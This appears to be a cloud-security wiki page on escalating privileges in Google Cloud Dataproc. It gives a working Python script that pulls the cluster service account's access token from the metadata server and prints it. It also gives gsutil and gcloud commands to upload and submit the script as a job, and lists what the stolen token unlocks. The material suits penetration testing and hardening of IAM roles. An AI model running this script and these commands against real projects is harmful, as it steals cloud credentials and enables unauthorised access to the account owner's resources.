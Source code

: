 # GCP Dataproc Privilege Escalation

## Dataproc Roles and Privilege Escalation

Google Cloud Dataproc roles like roles/dataproc.editor and roles/dataproc.admin grant significant permissions over Dataproc resources. If these roles are assigned to a compromised user or service account, they can be abused to escalate privileges by leaking sensitive metadata tokens or accessing other GCP resources.

## Key Permissions in Dataproc Roles

roles/dataproc.editor - Modify Dataproc jobs. Submit PySpark, Spark, Hadoop, and other job types to a cluster. Access job logs and configurations. Interact with associated GCP services like Cloud Storage and BigQuery.

roles/dataproc.admin - Full control over Dataproc clusters, including creating, deleting, and managing clusters.

These permissions make both roles highly sensitive and dangerous if misused.

## dataproc.jobs.create & dataproc.clusters.use

The following method - projects.regions.jobs.submit enables a SA to create a dataproc job, which can be abused as shown in the example below. it must be noted that in order to exploit these permissions SA should also have the necessary privileges to move the malicious script to the storage bucket (storage.objects.create).

the following permissions were assigned to the SA for the PoC (dataproc.clusters.get, dataproc.clusters.use, dataproc.jobs.create, dataproc.jobs.get, dataproc.jobs.list, storage.objects.create, storage.objects.get, storage.objects.list)   


## Privilege Escalation via Metadata Token Leaking



- Submit a job to a Dataproc cluster.

- Use the job to access the metadata server.

- Leak the service account token used by the cluster.

### Example Script for token leaking

The following script demonstrates how an attacker can submit a job to a Dataproc cluster to leak the metadata token:

import requests

## Metadata server URL to fetch the access token

```
metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
    try:
        response = requests.get(metadata_url, headers=headers, timeout=5)
        response.raise_for_status()
        token = response.json().get("access_token", "")
        print(f"Leaked Token: {token}")
        return token
    except Exception as e:
        print(f"Error fetching metadata token: {e}")
        return None

if __name__ == "__main__":
    fetch_metadata_token()
```

### Steps to exploit

```
# Copy the script to the storage bucket
gsutil cp fetch-metadata-token.py gs://dataproc-poc-bucket-hacktest/fetch-metadata-token.py
# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/fetch_metadata_token.py \
    --cluster=<cluster-name> \
    --region=<region>
```
### Use the Leaked Token

The leaked token can be used to:

- Access GCP APIs and resources (depending on the token’s permissions).
- Enumerate resources such as Cloud Storage buckets, BigQuery datasets, and more.
- Potentially escalate privileges further if the token has high-level permissions (e.g., roles/owner)
